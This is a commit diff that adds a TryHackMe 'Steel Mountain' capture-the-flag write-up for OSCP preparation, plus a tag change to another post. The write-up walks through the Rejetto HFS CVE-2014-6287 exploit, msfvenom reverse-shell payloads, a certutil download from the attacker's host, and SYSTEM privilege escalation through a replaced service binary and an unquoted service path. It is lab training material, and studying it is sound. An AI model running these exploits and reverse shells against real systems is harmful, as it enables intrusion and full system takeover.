

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-15-THM-Skynet-Write-up.md, in a window 1280 px wide and 1400 px high, scrolled down 14711 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Steel Mountain

````diff
--- a/_posts/2024-11-15-THM-Skynet-Write-up.md
+++ b/_posts/2024-11-15-THM-Skynet-Write-up.md
@@ -4,7 +4,7 @@
 description: Part of the OSCP+ Preparation Series
 date:   2024-11-15 09:00:00 +0300
 image:  '/images/thm_skynet.png'
-tags:   [Write-ups, THM, OSCP+, Easy, SMB-Null-Session, Login-Brute-Force, CVE, RFI, Tar-Wildcard-Expansion]
+tags:   [Write-ups, THM, OSCP+, Easy, Linux, SMB-Null-Session, Login-Brute-Force, CVE, RFI, Tar-Wildcard-Expansion]
 ---
 
 # Table of Contents
--- /dev/null
+++ b/_posts/2024-11-16-THM-Steel-Mountain-Write-up.md
@@ -0,0 +1,380 @@
+---
+layout: post
+title:  THM Steel Mountain Write-up
+description: Part of the OSCP+ Preparation Series
+date:   2024-11-16 09:00:00 +0300
+image:  '/images/thm_steel_mountain.png'
+tags:   [Write-ups, THM, OSCP+, Easy, Windows, CVE, PowerUp.ps1, CanRestart, Weak-File-Permission, Unquoted-Service-Path]
+---
+
+# Table of Contents
+- [Enumeration](#enumeration)
+  - [Nmap](#nmap)
+  - [Web Enumeration](#web-enumeration)
+- [Foothold](#foothold)
+  - [CVE-2014-6287 Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](#cve-2014-6287-rejetto-http-file-server-hfs-23x---remote-command-execution-2)
+- [Privilege Escalation](#privilege-escalation)
+  - [Enumerating PrivEsc Vectors with PowerUp.ps1](#enumerating-privesc-vectors-with-powerupps1)
+  - [Abusing CanRestart and Weak File Permission on ASCService.exe](#abusing-canrestart-and-weak-file-permission-on-ascserviceexe)
+  - [Abusing CanRestart and Unquoted Service Path](#abusing-canrestart-and-unquoted-service-path)
+
+# Enumeration
+### Nmap
+```shell
+# Step 1 - Find active ports
+nmap -p- --min-rate 10000 10.10.36.183
+
+# Step 2 - Focus scan on the active ports found
+nmap -A -T4 -Pn -p80,135,139,445,3389,5985,8080,47001 10.10.36.183
+```
+
+```shell
+Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-16 01:14 EST
+Nmap scan report for 10.10.36.183
+Host is up (0.052s latency).
+
+PORT      STATE SERVICE            VERSION
+80/tcp    open  http               Microsoft IIS httpd 8.5
+|_http-server-header: Microsoft-IIS/8.5
+| http-methods:
+|_  Potentially risky methods: TRACE
+|_http-title: Site doesn't have a title (text/html).
+135/tcp   open  msrpc              Microsoft Windows RPC
+139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
+445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
+3389/tcp  open  ssl/ms-wbt-server?
+| rdp-ntlm-info:
+|   Target_Name: STEELMOUNTAIN
+|   NetBIOS_Domain_Name: STEELMOUNTAIN
+|   NetBIOS_Computer_Name: STEELMOUNTAIN
+|   DNS_Domain_Name: steelmountain
+|   DNS_Computer_Name: steelmountain
+|   Product_Version: 6.3.9600
+|_  System_Time: 2024-11-16T06:15:35+00:00
+| ssl-cert: Subject: commonName=steelmountain
+| Not valid before: 2024-11-15T06:06:41
+|_Not valid after:  2025-05-17T06:06:41
+|_ssl-date: 2024-11-16T06:15:41+00:00; +2s from scanner time.
+5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
+|_http-server-header: Microsoft-HTTPAPI/2.0
+|_http-title: Not Found
+8080/tcp  open  http               HttpFileServer httpd 2.3
+|_http-title: HFS /
+|_http-server-header: HFS 2.3
+47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
+|_http-title: Not Found
+|_http-server-header: Microsoft-HTTPAPI/2.0
+Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
+
+Host script results:
+| smb-security-mode:
+|   authentication_level: user
+|   challenge_response: supported
+|_  message_signing: disabled (dangerous, but default)
+|_clock-skew: mean: 1s, deviation: 0s, median: 1s
+| smb2-security-mode:
+|   3:0:2:
+|_    Message signing enabled but not required
+| smb2-time:
+|   date: 2024-11-16T06:15:35
+|_  start_date: 2024-11-16T06:06:32
+|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4e:2c:4c:5a:65 (unknown)
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 76.28 seconds
+```
+
+Examining the results of nmap, we can see that this is a Windows machine. Lets visit the ports 80 and 8080 first through our web browser.
+
+### Web Enumeration
+Lets visit port 80 first.
+
+Visiting the website, we can find the name of the employee of the month:
+
+```shell
+http://10.10.36.183/
+```
+
+If we do right-click -> Open Image in New Tab on the image of the employee, we will get redirected to the following URL:
+
+```shell
+http://10.10.36.183/img/BillHarper.png
+```
+
+The name of the employee is Bill Harper.
+
+We will visit port 8080 next:
+
+```shell
+http://10.10.36.183:8080/
+```
+
+Looking at Server information, we can see that its running the following service and version:
+
+```shell
+HttpFileServer 2.3
+```
+
+Searching this on google, we will find the following:
+
+```shell
+Rejetto HTTP File Server
+```
+
+Note: We need to enter Rejetto HTTP File Server as answer to the second question.
+
+We were also able to find a remote command execution exploit entering "Rejetto HTTP File Server 2.3 exploit" on google:
+
+https://www.exploit-db.com/exploits/39161
+
+# Foothold
+### CVE-2014-6287 Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
+I will exploit this machine simulating the OSCP exam conditions, which dont allow the use of Metasploit or automated exploitation tools.
+
+Since we found the exploit on exploit-db.com, we can use searchsploit to download it:
+
+```shell
+# Download exploit
+searchsploit -m 39161
+
+# Rename-copy exploit for easier usage
+cp 39161.py exploit.py
+```
+
+We can find information about usage in the code of the exploit:
+
+```shell
+#Usage : python Exploit.py <Target IP address> <Target Port Number>
+```
+
+It also tells us we need to host nc.exe with a web server and that we might need to run the exploit multiple times:
+
+```shell
+#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
+#          You may need to run it multiple times for success!
+```
+
+We can do it with a python server:
+
+```shell
+# Find the nc.exe
+locate nc.exe
+
+# Copy the nc.exe to the directory where we currently are
+cp /usr/share/windows-resources/binaries/nc.exe .
+
+# Start python server from our current directory containing nc.exe
+python3 -m http.server 80
+```
+
+We also found some code lines which we need to edit with the tun0 IP of our Kali and port of our nc listener:
+
+```
+sudo gedit exploit.py
+```
+
+```shell
+<SNIP>
+	ip_addr = "10.11.113.193" #local IP address
+	local_port = "8443" # Local Port number
+<SNIP>
+```
+
+Note: Its always worth to analyze the code to see how a exploit works.
+
+In this case, we also noticed that the exploit uses python2.
+
+Now that we know how to use it, its time to hack our way in!
+
+Start our nc listener first:
+
+```shell
+nc -lvnp 8443
+```
+
+And run the exploit with the following command:
+
+```shell
+python2 exploit.py 10.10.36.183 8080
+```
+
+It didnt work. But we know that there was a line in the code telling us to run the exploit multiple times. Lets do that and run the command above multiple times.
+
+It worked! After running the exploit multiple times, we were able to get a response on our nc listener:
+
+```shell
+listening on [any] 8443 ...
+connect to [10.11.113.193] from (UNKNOWN) [10.10.36.183] 49268
+Microsoft Windows [Version 6.3.9600]
+(c) 2013 Microsoft Corporation. All rights reserved.
+
+C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
+whoami
+steelmountain\bill
+```
+
+### User Flag
+Now we can get the user.txt flag:
+
+```shell
+type C:\Users\bill\Desktop\user.txt
+```
+
+# Privilege Escalation
+### Enumerating PrivEsc Vectors with PowerUp.ps1
+Lets enumerate the target using PowerUp.ps1.
+
+Note: I got problems when trying to use powershell with the initial shell we got, so I created a payload with msfvenom to get a better meterpreter shell and load powershell:
+
+```shell
+# Create payload
+msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.113.193 LPORT=9001 -f exe -o shell.exe
+python3 -m http.server 80
+
+# Move payload
+cd C:\Users\bill\Desktop
+certutil.exe -urlcache -split -f http://10.11.113.193/shell.exe shell.exe
+
+# Start multi handler
+msfconsole -q
+use exploit/multi/handler
+options
+set PAYLOAD windows/x64/meterpreter/reverse_tcp
+set LHOST 10.11.113.193
+set LPORT 9001
+run
+
+# Run shell.exe from the target to trigger reverse shell and get a shell on our multi handler
+shell.exe
+
+# Upload powershell
+cd C:\Users\bill\Desktop
+upload /usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1
+
+# Load powershell into meterpreter
+load powershell
+powershell_shell
+```
+
+Now we can move PowerUp.ps1 and run it with Invoke-AllChecks (I will use PowerUp.ps1 only for enumeration, not for automated exploitation):
+
+```shell
+. .\PowerUp.ps1
+Invoke-AllChecks
+```
+
+If we examine the results, we will see that the service AdvancedSystemCareService9 is vulnerable to Unquoted Service Path and also has CanRestart set to True, but we can also modify the file to replace it with another .exe containing a reverse shell or add a new local admin user:
+
+```shell
+<SNIP>
+ServiceName    : AdvancedSystemCareService9
+Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
+ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
+                 Permissions=System.Object[]}
+StartName      : LocalSystem
+AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
+CanRestart     : True
+Name           : AdvancedSystemCareService9
+Check          : Unquoted Service Paths
+<SNIP>
+```
+
+```shell
+<SNIP>
+ServiceName                     : AdvancedSystemCareService9
+Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
+ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
+ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
+ModifiableFileIdentityReference : STEELMOUNTAIN\bill
+StartName                       : LocalSystem
+AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
+CanRestart                      : True
+Check                           : Modifiable Service Files
+<SNIP>
+```
+
+This means we can exploit it in two different ways:
+
+1. Abusing CanRestart and Weak File Permission to replace ASCService.exe with an .exe containing a reverse shell to our Kali and restarting the service.
+2. Abusing Unquoted Service Path.
+
+We will do both methods because I think both are important privilege escalation methods to know and very good practise.
+
+### Abusing CanRestart and Weak File Permission on ASCService.exe
+Lets create first an .exe with a reverse shell payload using msfvenom on Kali:
+
+```shell
+msfvenom -p windows/shell_reverse_tcp LHOST=10.11.113.193 LPORT=9002 -e x86/shikata_ga_nai -f exe-service -o revshell.exe
+```
+
+Now move it with meterpreter and replace the legitimate ASCService.exe with it:
+
+```shell
+# Move revshell.exe into the target
+cd "C:\Program Files (x86)\IObit\Advanced SystemCare"
+upload revshell.exe
+
+# Get PowerShell shell
+powershell_shell
+
+# Replace legitimate ASCService.exe with our .exe containing the payload
+copy revshell.exe ASCService.exe
+
+# Start nc listener on Kali
+nc -lvnp 9002
+
+# Restart the service and we will get a response on our nc listener giving us a shell as system
+Restart-Service AdvancedSystemCareService9
+```
+
+### Abusing CanRestart and Unquoted Service Path
+Lets create first an .exe with a reverse shell payload using msfvenom on Kali and name it Advanced.exe:
+
+```shell
+msfvenom -p windows/shell_reverse_tcp LHOST=10.11.113.193 LPORT=9002 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
+```
+
+When exploiting an Unquoted Service Path, the windows system will read the path and resolve the executable path in the following order:
+
+```shell
+C:\Program.exe
+C:\Program Files (x86)\IObit\Advanced.exe
+C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe (actual service binary)
+```
+
+This means that if we put as .exe at C:\Program Files (x86)\IObit named Advanced.exe, the system will execute it when checking for C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe.
+
+Now move it with meterpreter and put it inside C:\Program Files (x86)\IObit
+
+```shell
+# Move Advanced.exe to the unquoted path
+cd "C:\Program Files (x86)\IObit"
+upload Advanced.exe
+
+# Start our nc listener
+nc -lvnp 9002
+
+# Get PowerShell shell and restart the service
+powershell_shell
+Restart-Service AdvancedSystemCareService9
+```
+
+Using any of the both privilege escalation methods, we will get a response on our nc listener, giving us a shell as system:
+
+```shell
+listening on [any] 9002 ...
+connect to [10.11.113.193] from (UNKNOWN) [10.10.36.183] 49401
+Microsoft Windows [Version 6.3.9600]
+(c) 2013 Microsoft Corporation. All rights reserved.
+
+C:\Windows\system32>whoami
+whoami
+nt authority\system
+```
+
+### Root Flag
+Now we can get the root.txt flag:
+
+```shell
+type C:\Users\Administrator\Desktop\root.txt
+```
````
Also changed, not shown: images/thm_steel_mountain.png (added).
